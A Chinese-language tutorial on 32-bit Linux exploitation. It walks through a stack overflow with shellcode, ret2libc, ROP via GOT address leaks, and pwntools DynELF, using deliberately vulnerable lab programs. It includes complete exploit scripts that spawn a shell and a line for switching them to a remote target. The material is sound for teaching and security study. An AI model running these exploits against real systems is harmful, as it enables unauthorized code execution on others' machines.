# 一步一步学ROP_x86

## 序

> ROP的全称为Return-oriented programming（返回导向编程），这是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）

## Control Flow Hijack 程序流劫持

比较常见的程序流劫持就是栈溢出，格式化字符串攻击和堆溢出了。通过程序流劫持，攻击者可以控制PC指针从而执行目标代码。为了应对这种攻击，系统防御者也提出了各种防御方法，最常见的方法有DEP（堆栈不可执行），ASLR（内存地址随机化），Stack Protector（栈保护）等。

例：

```c++
    //level1.c
    #include<stdio.h>
    #include<stdlib.h>
    #include<unistd.h>

    void vulnerable_function(){
        char buf[128];
        read(STDIN_FILENO,buf,256);
    }
    int main(int argc,char** argv){
        vulnerable_function();
        write(STDOUT_FILENO,"Hello,world\n",13);
    }
```

程序有明显的缓冲区溢出，采用指令编译程序：

```bash
    gcc -fno-stack-protector -z execstack -m32 -g -o level1 level1.c
```

`-fno-stack-protector`和`-z execstack`这两个参数会分别关掉`DEP`和`Stack Protector`,`-m32`用于生成32位程序（64位机器下）。同时关掉系统的ASLR保护：

```bash
    sudo -s
    echo 0 > /proc/sys/kernel/randomize_va_space
    exit
```



接下来测试目标程序的溢出点位置：




接下来我们只需要构造一个`'A'*140+ret`字符串，就可以让pc执行ret上的代码了。此外，我们还需要一段shellcode：

```python
    # execve("bin/sh")
    # xor ecx,ecx
    # mul ecx
    # push ecx
    # push 0x68732f2f   ;hs//
    # push 0x6e69622f   ;nib/
    # mov ebx,esp
    # mov al,11
    # int 0x80

    shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode += "\x0b\xcd\x80"
```

使用一段简单的执行`execve("/bin/sh")`命令的语句作为shellcode。接下来就是控制pc跳转到shellcode的地址上：

```python
    [shellcode]['A'*140][ret]
    ^------------------------------------|
```

使用gdb调试目标程序，然后查看内存确定得到的shellcode地址并不是执行程序时shellcode的真实地址。gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。
为解决这个问题，最简单的方法是开启`core dump`：

```bash
    ulimit -c unlimited
    sudo sh -c 'echo "/tmp/core.t%t" > /proc/sys/kernel/core_pattern'
```

开启之后，当出现内存错误的时候，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。



因为溢出点是140个字节，再加上4个字节的ret地址，我们可以计算出buffer的地址为`$esp-144`。通过gdb的命令 `x/10s $esp-144`，我们可以得到buf的地址为`0xffffd500`



至此，溢出点，shellcode，返回地址都有了，可以利用pwntools写exp了。在本地测试成功后只需简单修改一条语句就可以马上进行远程攻击。

```python
    p = process('./level1')     # 本地测试
    p = remote('172.17.0.2',10001)  # 远程攻击
```

最终的测试脚本：

```python
    #!/usr/bin/python
    from pwn import *

    p = process('./level1')
    ret = 0xffffd500

    # execve("bin/sh")
    # xor ecx,ecx
    # mul ecx
    # push ecx
    # push 0x68732f2f   ;hs//
    # push 0x6e69622f   ;nib/
    # mov ebx,esp
    # mov al,11
    # int 0x80

    shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode += "\x0b\xcd\x80"

    # p32(ret) == struct.pack("<I",ret)
    # 对ret进行编码，将地址转换成内存中的二进制存储形式

    payload = shellcode + 'A'*(140 - len(shellcode)) + p32(ret)

    p.send(payload)     # 发送payload
    p.interactive()     # 开启交互shell
```

## Ret2libc – Bypass DEP 通过 ret2libc 绕过 DEP 防护

打开DEP关闭`stack protector`和`ASLR`的情况。
编译指令：

```bash
    gcc -fno-stack-protector -m32 -g -o level2 level2.c
```

这个时候再使用level1的exp的话，系统会拒绝执行我们的shellcode。通过`sudo cat /proc/[pid]/maps`查看，可以发现level1的stack是`rwx`，而了level2的stack是`rw`




因为开启了DEP(堆栈不可执行)，所以这里并不能使用level1的方法让程序执行堆栈中的shellcode，但是我们可以劫持EIP指向程序已存在或libc中的函数。我们知道`level2`调用了`libc.so`，并且libc.so里保存了大量可利用的函数，所以可以让程序执行system(“/bin/sh”)的话，也可以获取到shell。思路有了，那么接下来的问题就是如何得到system()这个函数的地址以及”/bin/sh”这个字符串的地址。
关掉了ASLR，system()函数在内存中的地址是固定不变的，并且libc.so中也包含“/bin/sh”(字符串的地址也是固定的)。接下来我们可以寻找这个函数的地址。使用gdb进行调试。然后通过print和find命令来查找system和”/bin/sh”字符串的地址。



首先在main函数上下一个断点，然后执行程序，这样的话程序会加载`libc.so`到内存中，然后我们就可以通过`print system`这个命令来获取`system`函数在内存中的位置，随后我们可以通过`print __libc_start_main`这个命令来获取`libc.so`在内存中的起始位置，接下来我们可以通过`find`命令来查找`/bin/sh`这个字符串。这样我们就得到了`system`的地址`0xf7e3ada0`以及`/bin/sh`的地址`0xf7f5ba0b`。下面我们开始写exp：

```python
    #!/usr/bin/python
    from pwn import *

    p = process('./level2')

    ret = 0xdeadbeef
    system_addr = 0xf7e3ada0
    bin_addr = 0xf7f5ba0b

    payload = 'A'*140 + p32(system_addr) + p32(ret) + p32(bin_addr)

    p.send(payload)
    p.interactive()
```

要注意的是system()后面跟的是执行完system函数后要返回地址，接下来才是”/bin/sh”字符串的地址。因为我们执行完后也不打算干别的什么事，所以我们就随便写了一个0xdeadbeef作为返回地址。

## ROP - Bypass DEP and ASLR 通过 ROP 绕过 DEP 和 ASLR 防护

```bash
    sudo -s
    echo 2 > /proc/sys/kernel/randomize_va_space
    exit
```

开启ASLR(Address space layout randomization)保护，再尝试exp2.py发现已经行不通了。通过`sudo cat /proc/[pid]/maps`或ldd查看，level2的libc.so地址每次都是变化的



解决思路是：我们需要先泄漏出`libc.so`某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出`system()`函数和`/bin/sh`字符串在内存中的地址，然后再执行我们的`ret2libc`的`shellcode`。
虽然栈，libc，heap的地址都是随机的，但是程序本身在内存中的地址并不是随机的：



所以我们只要把返回值设置到程序本身就可执行我们期望的指令了(通过程序已经存在的函数来获得其在内存中的真实地址，然后再利用偏移量计算我们需要的地址)。首先我们利用objdump来查看可以利用的plt函数和函数对应的got表：
执行命令:`objdump -d -j .plt level2`查看可利用的plt函数



执行命令：`objdump -R level2`查看可利用的函数对应的got表：



我们发现除了程序本身的实现的函数之外，我们还可以使用`read@plt()`和`write@plt()`函数。但因为程序本身并没有调用`system()`函数，所以我们并不能直接调用`system()`来获取shell。但其实我们有`write@plt()`函数就够了，因为我们可以通过`write@plt ()`函数把`write()`函数在内存中的地址也就是`write.got`给打印出来。
`wirte()`函数的实现是在libc.so中，但linux采用了延时绑定技术，当我们调用`write@plt`的时候，系统会将真正的`write()`函数地址link到got表的`write.got`中，然后`write@plit()`会根据`write.got`跳转到真正的`write()`函数上去。（《程序员的自我修养-链接、装载与库》）
大致思路就是通过plt中的函数调用got表中的函数，然后得到got表中函数在内存中的地址，进而计算偏移量构造ROP链。
因为`system()`函数和`write()`在`libc.so`中的`offset(相对地址)`是不变的，所以如果我们得到了`write()`的地址并且拥有目标服务器上的`libc.so`就可以计算出`system()`在内存中的地址了。
然后我们再将pc指针`return`回`vulnerable_function()`函数，就可以进行`ret2libc`溢出攻击，并且这一次我们知道了`system()`在内存中的地址，就可以调用`system()`函数来获取我们的shell了。



使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址。



exp:

```python
    #!/usr/bin/python
    from pwn import *

    libc = ELF('./libc.so')
    elf = ELF('./level2')

    # p = remote('172.17.0.2',10001)
    p = process('./level2')

    plt_write = elf.symbols['write']
    log.info("plt_write=%#x",plt_write)

    # got_write = elf.got['write']
    # log.info("got_write=%#x",got_write)

    got_read = elf.got['read']
    log.info("got_read=%#x",got_read)

    vulfun_addr = 0x804843b

    # payload1 = 'A'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) + p32(got_write) + p32(4)
    payload1 = 'A'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) + p32(got_read) + p32(4)

    print "\n###sending payload1 ...###"
    p.send(payload1)

    # print "\n###recving write() addr ...###"
    # write_addr = u32(p.recv(4))
    # log.info("write_addr=%#x",write_addr)

    print "\n###recving read() addr ...###"
    read_addr = u32(p.recv(4))
    log.info("read_addr=%#x",read_addr)


    print "\n###calculating system() addr and \"/bin/sh\" addr ...###"
    # system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
    system_addr = read_addr - (libc.symbols['read'] - libc.symbols['system'])
    log.info("system_addr=%#x",system_addr)
    # bin_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
    bin_addr = read_addr - (libc.symbols['read'] - next(libc.search('/bin/sh')))    # next用于返回search的结果
    log.info("bin_addr=%#x",bin_addr)

    payload2 = 'A'*140 + p32(system_addr) + p32(vulfun_addr) + p32(bin_addr)

    print "\n###sending payload2 ...###"
    p.send(payload2)

    p.interactive()
```

## Memory Leak & DynELF - 在不获取目标libc.so的情况下进行ROP攻击

在没有目标机器上的`libc.so`或者具体的`linux`版本号时，通过`libc`计算`offset`构造ROP链的方式显然不可行，但是我们可以通过`memory leak(内存泄露)`来搜索内存找到`system()`的地址。
利用pwntools提供的`DynELF`模块来进行内存搜索。首先我们需要实现一个`leak(address)`函数，通过这个函数可以获取到某个地址上最少`1 byte`的数据。拿我们上文中的level2程序举例。leak函数应该是这样实现的：

```python
    def leak(address):
        payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
        p.send(payload1)
        data = p.recv(4)
        print "%#x => %s" % (address, (data or '').encode('hex'))
        return data
```

随后将这个函数作为参数再调用`d = DynELF(leak, elf=ELF('./level2'))`就可以对`DynELF`模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到`libc.so`中`system()`在内存中的地址。
要注意的是，通过`DynELF`模块只能获取到`system()`在内存中的地址，但无法获取字符串`“/bin/sh”`在内存中的地址。所以我们在`payload`中需要调用`read()`将`“/bin/sh”`这字符串写入到程序的`.bss`段中。`.bss`段是用来保存全局变量的值的，地址固定，并且可以读可写。通过`readelf -S level2`这个命令就可以获取到bss段的地址了。

```s
    There are 36 section headers, starting at offset 0x1b84:

    Section Headers:
    [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
    [ 0]                   NULL            00000000 000000 000000 00      0   0  0
    [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
    [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
    [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
    [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000020 04   A  5   0  4
    [ 5] .dynsym           DYNSYM          080481cc 0001cc 000060 10   A  6   1  4
    [ 6] .dynstr           STRTAB          0804822c 00022c 000050 00   A  0   0  1
    [ 7] .gnu.version      VERSYM          0804827c 00027c 00000c 02   A  5   0  2
    [ 8] .gnu.version_r    VERNEED         08048288 000288 000020 00   A  6   1  4
    [ 9] .rel.dyn          REL             080482a8 0002a8 000008 08   A  5   0  4
    [10] .rel.plt          REL             080482b0 0002b0 000018 08  AI  5  24  4
    [11] .init             PROGBITS        080482c8 0002c8 000023 00  AX  0   0  4
    [12] .plt              PROGBITS        080482f0 0002f0 000040 04  AX  0   0 16
    [13] .plt.got          PROGBITS        08048330 000330 000008 00  AX  0   0  8
    [14] .text             PROGBITS        08048340 000340 0001c2 00  AX  0   0 16
    [15] .fini             PROGBITS        08048504 000504 000014 00  AX  0   0  4
    [16] .rodata           PROGBITS        08048518 000518 000015 00   A  0   0  4
    [17] .eh_frame_hdr     PROGBITS        08048530 000530 000034 00   A  0   0  4
    [18] .eh_frame         PROGBITS        08048564 000564 0000ec 00   A  0   0  4
    [19] .init_array       INIT_ARRAY      08049f08 000f08 000004 00  WA  0   0  4
    [20] .fini_array       FINI_ARRAY      08049f0c 000f0c 000004 00  WA  0   0  4
    [21] .jcr              PROGBITS        08049f10 000f10 000004 00  WA  0   0  4
    [22] .dynamic          DYNAMIC         08049f14 000f14 0000e8 08  WA  6   0  4
    [23] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
    [24] .got.plt          PROGBITS        0804a000 001000 000018 04  WA  0   0  4
    [25] .data             PROGBITS        0804a018 001018 000008 00  WA  0   0  4
    [26] .bss              NOBITS          0804a020 001020 000004 00  WA  0   0  1
    [27] .comment          PROGBITS        00000000 001020 000035 01  MS  0   0  1
    [28] .debug_aranges    PROGBITS        00000000 001055 000020 00      0   0  1
    [29] .debug_info       PROGBITS        00000000 001075 0000f1 00      0   0  1
    [30] .debug_abbrev     PROGBITS        00000000 001166 000097 00      0   0  1
    [31] .debug_line       PROGBITS        00000000 0011fd 00003f 00      0   0  1
    [32] .debug_str        PROGBITS        00000000 00123c 0000e6 01  MS  0   0  1
    [33] .shstrtab         STRTAB          00000000 001a37 00014a 00      0   0  1
    [34] .symtab           SYMTAB          00000000 001324 0004c0 10     35  52  4
    [35] .strtab           STRTAB          00000000 0017e4 000253 00      0   0  1
    Key to Flags:
    W (write), A (alloc), X (execute), M (merge), S (strings)
    I (info), L (link order), G (group), T (TLS), E (exclude), x (unknown)
    O (extra OS processing required) o (OS specific), p (processor specific)

```

因为我们在执行完read()之后要接着调用`system(“/bin/sh”)`，栈中调用会发生昏乱，造成ROP链执行失败。



`read()`这个函数的参数有三个，所以我们需要一个`pop pop pop ret`的`gadget`用来保证栈平衡。键入命令：`objdump -d level2`



当然也可以使用ROPgadget，键入命令`ROPgadget --binary level2 | grep "pop"`



整个攻击过程：首先通过`DynELF`获取到`system()`的地址后，我们又通过`read`将`“/bin/sh”`写入到`.bss`段上，最后再调用`system（.bss）`，执行`“/bin/sh”`。最终的exp如下:

```python
    #!/usr/bin/python
    from pwn import *

    elf = ELF('./level2')
    plt_write = elf.symbols['write']
    plt_read = elf.symbols['read']
    vulfun_addr = 0x804843b

    def leak(address):
        payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
        p.send(payload1)
        data = p.recv(4)
        print "%#x => %s" % (address, (data or '').encode('hex'))
        return data

    p = process('./level2')

    d = DynELF(leak, elf=ELF('./level2'))

    system_addr = d.lookup('system', 'libc')
    log.info("system_addr=%#x",system_addr)

    bss_addr = 0x0804a020
    pppr = 0x080484f9

    payload2 = 'a'*140  + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8)
    payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)

    print "\n###sending payload2 ...###"
    p.send(payload2)
    p.send("/bin/sh\0")
    p.interactive()
```
